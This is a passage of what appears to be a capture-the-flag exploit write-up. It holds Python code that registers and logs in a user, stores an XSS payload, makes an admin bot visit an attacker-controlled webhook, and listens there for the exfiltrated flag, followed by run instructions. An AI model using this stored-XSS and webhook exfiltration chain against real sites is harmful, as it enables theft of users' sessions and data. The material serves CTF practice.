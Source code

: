 ```py
        "username": username,
        "password": password
    }
    response = s.post(f"{app_url}/api/login", json=payload)
    if response.status_code == 200:
        print("User logged in successfully.")
        print("Token:", response.cookies.get("auth-token"))
    else:
        print(f"Failed to login. Status code: {response.status_code}")
        print("Response:", response.text)
    return response

def bot_visit(url):
    # Visit the bot URL
    response = requests.post(f"{bot_url}/visit", json={"url": url})
    if response.status_code == 200:
        print(f"Bot visited {url} successfully.")
        print("Response:", response.text)
    else:
        print(f"Failed to visit {url}. Status code: {response.status_code}")
        print("Response:", response.text)
    return response


def exploit():
    global username, password

    register(username, password)
    login(username, password)
    store_xss_payload()
    bot_visit(f"{webhook_url}/x")


if __name__ == "__main__":
    print("Starting exploit...")
    Thread(target=app.run, kwargs={'host': '0.0.0.0', 'port': 5050}, daemon=True).start()
    exploit()
    print('Listening for flag in webhook...')
    # sleep until the flag is received
    import time
    time.sleep(100)  # wait for 100 seconds
    print('Exiting...')
```

In order to run the exploit, you need to have installed the required packages:
```bash
pip install requirements.txt
```

Then you can run the exploit with:
```bash
python exploit.py [local|remote]
```